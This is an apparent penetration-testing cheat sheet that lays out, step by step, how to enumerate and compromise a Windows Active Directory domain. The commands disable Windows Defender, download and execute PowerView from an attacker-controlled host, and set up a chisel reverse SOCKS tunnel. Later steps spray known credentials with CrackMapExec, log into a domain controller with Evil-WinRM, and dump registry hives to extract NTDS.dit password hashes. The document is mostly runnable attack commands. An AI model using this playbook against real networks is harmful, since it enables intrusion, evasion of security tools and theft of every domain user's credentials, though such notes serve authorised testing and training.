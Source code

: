 # Active Directory Enumeration

Enumerate and exploit AD users and groups.

1. Enumerate all **local accounts**
   
        net user

2. Enumerate all users in the **entire domain**

        net user /domain

3. Query information about **individual users**

        net user USERNAME /domain
    
    Identify a user who is member of the **Domain Admins** group

4. Enumerate all groups in the domain

        net group /domain

    Analyse output and identify custom groups, if any.

5. Create an **LDAP connection string**

        LDAP://DC=|SERVER NAME|[,DC=|EXTENSION|]

6. **Disable Windows Defender** by running following PowerShell command as a local administrator

        Set-MpPreference -DisableRealtimeMonitoring $true

7. **Extract** files from a ZIP folder using PowerShell
  
        Expand-Archive -LiteralPath ./filename.zip -DestinationPath ./outputFolderName

8. Check **file permissions**

        icacls filename.txt

9. **Grant** a user **full control** over a folder and all its subfolders

        icacls "C:\folder\path" /grant Username:(OI)(CI)F /T

10. **Check** the current user's **integrity level**

        whoami /groups

    Is it **low**, **medium**, **high**, **system**, or **installer**?

11. **Change** the integrity level of a file

        icacls winPEASx64.exe /setintegritylevel Low
    ---
        > icacls winPEASx64.exe
        winPEASx64.exe NT AUTHORITY\SYSTEM:(I)(F)
                BUILTIN\Administrators:(I)(F)
                COMPATIBILITY\Administrator:(I)(F)
                Mandatory Label\Low Mandatory Level:(NW)

12. Check the current user's **permissions**

        whoami /priv

13. List the "Security Update" **patches**

        Get-Hotfix -description "Security update"

14. Get a list of running **non-standard services** that **start automatically**

        wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"

15. Enumerate the **internal network** to find live hosts

        for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.10.%i > nul && echo 10.10.10.%i is up.

16. Use [CrackMapExecWin](../crackmapexecwin/README.md) to check which boxes could be accessed using any of the known credentials

17. Use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to find users on the network with enhanced privileges

        powershell.exe -executionpolicy bypass "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.9:8000/PowerView.ps1'); Get-NetComputer"

    ---

        Get-DomainComputer | Select name
        Find-DomainShare
        Find-DomainShare -CheckShareAccess

    ---

    List any interesting share, if found, to view its contents

        ls \\citrix\citrix$\

    Check if a domain user has SPN associated with them

        Get-DomainUser
        Get-DomainUser <account_name>

    Request a Ticket Granting Service Ticket (TGS-REQ) for an identified service. The returned TGS (TGS-REP) would be encrypted using the NTLM password hash of the account in whose context the service was running.

18. [Refer steps mentioned here](../attacking_kerberos/README.md) to obtain and crack the hash for a user who has an SPN associated with them
19. Check current user's permissions

        whoami /priv

20. If `SeImpersonatePrivilege` feature is enabled for current user, and, if hash (from step #18, above) was cracked successfully, then **impersonate** as a different user 

    * Using [Covenant](https://github.com/cobbr/Covenant)

            MakeToken <username> <domain.local> <password> LOGON32_LOGON_INTERACTIVE

    * Using [runas](https://www.dionach.com/blog/discovering-sensitive-information-in-file-shares/)

            runas /netonly /user:domain.local\username "PowerShell.exe -exec bypass"

21. Do a listing of accessible **shares**, as the impersonated user

        ls \\shareName\sharePath$\

22. Enumerate the **internal subnet**

        $ ipconfig
        $ for /L %i in (1,1,255) do @ping -n 1 -w 200 172.10.10.%i > nul && echo 172.10.10.%i is up.

23. Use [Invoke-PortScan.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Scan/Invoke-PortScan.ps1) PowerShell script for **port-scanning**

        Invoke-Portscan -StartAddress 172.10.10.200 -EndAddress 172.10.10.4 -ScanPort -Port 21,22,53,80,443,8080

24. Deploy a **SOCKS proxy** and enable **reverse tunneling** using [chisel](https://github.com/jpillora/chisel/releases) to access internal applications (if any)

    **Linux (Server):**

        ./chisel_1.7.2_linux_amd64 server --reverse

    **Windows (Client):**

        ./chisel_1.7.2_windows_amd64 client 10.10.10.9:8080 R:0.0.0.0:1080:socks

25. **Route traffic** through the SOCKS proxy by adding following line to the end of `/etc/proxychains.conf` file (and, commenting out any pre-existing entries)

        socks5  127.0.0.1 1080

26. Configure browser to use SOCKS proxy on port 1080 (using FoxyProxy browser plugin), and browse to an **internal web server** through the proxy

        proxychains curl http://172.10.10.4

27. Use **Proxychains** to connect and run commands on the remote machine

        $ proxychains ssh nsroot@172.10.10.4 -i ./id_rsa  -v 
        > shell "/bin/sh"
        #
        # tcpdump -w capture.cap -v -s0

    ---

        proxychains scp -i id_rsa root@172.10.10.4:/tmp/capture.cap .

28. Obtain a list of accounts using [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

        Get-DomainUser | select samaccountname

29. Download [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec/releases) binary for Linux
30. Check which of the service accounts in an internal network are accessible through known crcedentials

        proxychains ./cme smb 172.10.10.4 -d domain.local -u ./users.txt -p 'Password123' --continue-on-success

31. If known credentials allow access to a service account, explore the account further

        net user <account_name> /domain

32. If remote management is enabled, login to the domain controller remotely using [Evil-WinRM](../../privilege_escalation/winrm_5985/README.md) alongwith proxychanins
        
        proxychains evil-winrm -i <IP> -u USERNAME -p PASSWORD

33. The `NTDS.dit` file is the database for Active Directory that is present on all domain controllers.It stores hashes for all domain users as well as information about other objects in the domain. 
    1.  SAM and SYSTEM registry hives are required in order to decrypt the file. Export these hives:

            *Evil-WinRM* PS C:\temp> reg save HKLM\System System.hive

    2.  Extract hashes using [Impacket](../../windows_post_exploitation/file_transfer_smbserver/README.md)'s `secretsdump.py` script.

## References

* https://www.codemag.com/Article/1312041/Using-Active-Directory-in-.NET
* https://www.wintips.org/how-to-disable-or-remove-windows-defender-antivirus-in-server-2016/
* https://www.robvanderwoude.com/ntadmincommands.php
* https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/integrity-levels
* https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows
* https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
* https://morph3sec.com/Writeups/HackTheBox/HackTheBox-Endgame-Xen-Writeup/
* https://www.picussecurity.com/blog/picus-10-critical-mitre-attck-techniques-t1003-credential-dumping
* https://info.varonis.com/hubfs/docs/whitepapers/en/ebook_pen_testing_031317.pdf?hsLang=en
* https://github.com/cobbr/Covenant
* https://powersploit.readthedocs.io/en/latest/
* https://powersploit.readthedocs.io/en/latest/Recon/Find-DomainShare/
* https://www.dionach.com/blog/discovering-sensitive-information-in-file-shares/
* https://blog.emacsos.com/use-socks5-proxy-in-curl.html
* https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29
* https://chickenpwny.github.io/windows/chisel/
* https://netsec.ws/?p=278
* https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy

